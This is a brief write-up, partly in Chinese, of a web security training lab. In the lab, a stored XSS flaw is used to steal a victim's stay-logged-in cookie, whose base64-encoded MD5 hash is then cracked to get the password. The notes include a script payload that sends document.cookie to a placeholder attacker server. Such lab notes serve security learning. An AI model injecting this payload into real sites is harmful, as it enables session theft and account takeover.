 # Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

* Your credentials: wiener:peter
* Victim's username: carlos

## Authentication
* 題目說要找出 carlos 的 stay-logged-in value，用 xss
```
<script>new Image().src = 'http://yourserver/exploit?' + document.cookie</script>
```
* 之後就可以拿到了，cookie 的架構跟上一題是一樣的，所以 base64 decode -> md5 decrypt 就有密碼了
